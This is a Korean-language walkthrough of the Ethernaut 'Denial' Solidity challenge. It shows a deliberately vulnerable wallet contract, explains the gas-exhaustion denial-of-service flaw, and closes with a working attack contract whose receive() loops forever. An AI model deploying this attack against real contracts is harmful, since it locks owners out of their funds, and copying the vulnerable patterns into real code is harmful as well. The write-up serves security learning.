

## 문제
### 지문
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.
Things that might help
Understanding how array storage works
Understanding ABI specifications
Using a very underhanded approach
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
## 배경지식
<hr />
Solidity에서 `address.call{value: amount}("")`처럼 별도 gas 값을 지정하지 않으면 호출 시점에 전달 가능한 gas 대부분을 상대 컨트랙트로 넘긴다. 상대 컨트랙트의 `receive`나 `fallback` 함수가 복잡한 연산을 하거나 끝나지 않는 루프를 돌면, 호출한 쪽의 남은 gas까지 소모시킬 수 있다.
`Denial.withdraw()`는 `partner.call(...)`의 반환값을 확인하지 않는다. 다만 이 문제에서는 반환값보다 gas가 더 직접적이다. 외부 호출 도중 gas가 전부 소모되면, 이후 줄인 `owner.transfer(...)`까지 도달하지 못한다.
<hr />
`transfer`는 수신자에게 2300 gas만 전달한다. 예전에는 단순 이더 전송에 안전한 방식처럼 자주 설명됐지만, 여기서는 앞의 `call`과 대비된다.
`withdraw()`는 먼저 `partner`에게 `call`을 하고, 그 다음 `owner`에게 `transfer`를 한다. 앞의 `call`에서 gas를 다 써버리면 뒤의 `transfer`는 실행될 수 없다. 즉 이 문제의 목표는 이더를 빼내는 것이 아니라, `owner`의 출금을 계속 실패하게 만드는 것이다.
<hr />
이 문제는 reentrancy attack으로 잔액을 빼내는 전형적인 패턴과 조금 다르다. `partner.call(...)`이 먼저 실행되기 때문에 처음에는 reentrancy attack을 떠올릴 수 있지만, 레벨 조건은 "컨트랙트에 자금이 남아 있는데 owner가 출금하지 못하게 만들기"다.
공격자는 `partner`가 된 뒤, 이더를 받을 때 남은 gas를 소모하는 컨트랙트를 준비하면 된다. 이 흐름으로 `withdraw()` 전체를 gas 부족으로 실패시키는 DoS를 만들 수 있다.
## 문제 코드 분석
<hr />
먼저 누구나 바꿀 수 있는 `partner`를 보자.
```solidity
function setWithdrawPartner(address _partner) public {
    partner = _partner;
}
```
`setWithdrawPartner`에는 권한 체크가 없다. 아무 주소나 `partner`로 등록할 수 있고, 컨트랙트 주소도 등록할 수 있다.
따라서 공격자는 악의적인 `receive` 함수를 가진 컨트랙트를 배포하고, 그 주소를 `partner`로 등록하면 된다. 이후 `withdraw()`가 호출될 때 제어 흐름이 공격 컨트랙트로 넘어온다.
<hr />
이제 외부 호출이 먼저 실행되는 구조를 보자.
```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] += amountToSend;
}
```
`withdraw()`는 잔액의 1%를 계산한 뒤 `partner`에게 먼저 이더를 보낸다. 그 다음에야 `owner`에게 같은 금액을 보낸다.
외부 호출이 상태 업데이트보다 먼저 나오는 것도 위험하지만, 여기서는 `partner.call`이 gas를 제한하지 않는 문제가 더 직접적이다. 공격 컨트랙트의 `receive`가 gas를 계속 소비하면 `owner.transfer(amountToSend)`에 도달하지 못한다.
<hr />
마지막으로 반환값을 무시하는 `call`을 보자.
```solidity
partner.call{value: amountToSend}("");
payable(owner).transfer(amountToSend);
```
주석에는 "recipient can revert, the owner will still get their share"라고 적혀 있다. 실제로 `partner`가 단순히 `revert`만 하면 `call`은 `false`를 반환하고 다음 줄로 넘어갈 수 있다.
하지만 gas를 전부 소모하는 경우는 다르다. 실행을 계속할 gas가 남지 않기 때문에, `call`의 반환값을 확인하지 않는다는 방어가 의미가 없어진다. 그래서 공격은 `revert`가 아니라 gas exhaustion을 목표로 해야 한다.
## 풀이
먼저 공격 컨트랙트를 배포하고, `setWithdrawPartner(address(this))`로 이 컨트랙트를 `partner`에 등록한다. 이후 Ethernaut 레벨이 `withdraw()`를 호출하면 `Denial`은 `partner.call{value: amountToSend}("")`을 실행한다.
이때 공격 컨트랙트의 `receive()`가 실행된다. `receive()` 안에서 끝나지 않는 루프를 돌리면 `call`로 넘어온 gas를 계속 소모한다. 결국 `withdraw()`는 `owner.transfer(amountToSend)`를 실행할 gas를 확보하지 못하고 실패한다.
처음에는 reentrancy attack으로 `withdraw()`를 다시 호출하는 방식을 의심할 수 있다. 하지만 이 레벨의 조건은 잔액 탈취가 아니라 owner 출금 방해이고, 가장 직접적인 방법은 `call`이 넘겨준 gas를 전부 소모하는 것이다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Attack {
    IDenial private immutable denial;

    constructor(address _denial) {
        denial = IDenial(_denial);
    }

    function attack() external {
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while (true) {}
    }
}
```

